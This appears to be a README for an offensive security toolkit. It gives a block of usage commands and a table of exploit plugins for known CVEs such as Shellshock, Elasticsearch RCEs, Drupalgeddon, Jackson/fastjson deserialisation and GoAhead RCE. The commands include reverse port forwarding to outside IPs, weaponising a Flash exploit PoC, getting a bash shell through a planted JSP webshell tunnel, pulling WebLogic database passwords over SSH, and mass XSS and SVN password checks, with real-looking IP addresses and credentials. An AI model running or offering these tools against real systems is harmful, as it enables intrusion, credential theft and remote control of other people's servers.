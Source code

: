 ## New features
```
# ssh2
py2  py/rforward.py -r 192.168.10.115:8083 -p 9999 -u root 12.19.16.11:27449
curl http://162.219.126.11:9999/QIMS/login.jsp -v

# how use exploit CVE-2018-15982

py2 tools/replaceBin.py -i /mysvn/CVE-2018-15982_PoC.swf -o /mysvn/test.swf -c 'notepad.exe'

# get bash shell,socks4 through http tunnel,auto use tmux and reGeorgSocksProxy.py
tools/getBashShell_proxychains_http_tunnel.sh http://xxx:9002/uddi/.O01542895480635.jsp

# check Xss
cat /mysvn/new_url_list.txt|xargs -I % node tools/checkXss.js -v -u %
# check svn paswd
node tools/checkSvn.js http://12.68.10.7:8090/svn/ userName Pswd

# socks5
node tools/mySocks5.js --user mser --password W_x*d -p 15533

#one key get weblogic passwd
ssh -i YouKey userName@YouTargetIp -p targetPort < tools/oneKeyGetSshWeblogicJdbcPswd.sh >out.txt

# port Forward
node  tools/portForward.js -l 8080,3306 --rhost 172.17.0.2 -s 127.0.0.1 -p 8111

# ssh cmd
node tools/ssh2Cmd.js --port 29156 --host 12.8.22.48 --username root --password '#$'

# xss test
cat /mysvn/xss.txt|grep -Eo "http.*$"|sort -u|xargs -I % node checkUrl.js -u % --tags xss

# test all urls xss
cat /mysvn/xx.sh|grep -Eo "'([^']+)'"|xargs -I % bash -c 'curl --connect-timeout 2 -Is % -o-| head -n 1|grep -Eo "(200|301)" && node checkUrl.js -u % --tags xss'


```
## plugins
|name|tags|dependencies|des|
| --- | ---  | ---  | --- |
|/bash/CVE-2014-6271.js|shellshock,web,CVE-2014-6271,rci|java,ysoserial,base64,tr|Shellshock Remote Command Injection (CVE-2014-6271)|
|/GlassFish/4.1.0.js|glassfish,web||glassfish 4.1.0 漏洞检测|
|/elasticsearch/CVE-2015-1427.js|elasticsearch,web,CVE-2015-1427|java,ysoserial,base64,tr|elasticsearch,web,CVE-2015-1427,RCE,ElasticSearch Groovy 沙盒绕过 && 代码执行漏洞（CVE-2015-1427）测试环境|
|/elasticsearch/CVE-2014-3120.js|elasticsearch,web,CVE-2014-3120|java,ysoserial,base64,tr|elasticsearch,web,CVE-2014-3120,RCE|
|/elasticsearch/CVE-2015-3337.js|CVE-2015-3337,||ElasticSearch 目录穿越漏洞（CVE-2015-3337）测试环境|
|/flask/ssti.js|ssti,flask,parms||Flask（Jinja2） 服务端模板注入漏洞|
|/jackson/drupal_CVE-2018-7600.js|CVE-2018-7600,web,drupal|java,ysoserial,base64,tr|drupal,漏洞检测|
|/jackson/CVE-2017-7525.js|jackson,web,CVE-2017-7525,CVE-2017-17485|java,ysoserial,base64,tr|CVE-2017-7525,漏洞检测,JDK7u21,CVE-2017-17485|
|/jackson/fastjson.js|fastjson,web,|java,ysoserial,base64,tr|fastjson,漏洞检测|
|/http/attackhost.js|http,host,spoof,web||spoof host,漏洞检测|
|/goahead/CVE-2017-17562.js|CVE-2017-17562,goahead,web|gcc,c lib,rm(/tmp/xx)|GoAhead 远程命令执行漏洞（CVE-2017-17562） 漏洞检测|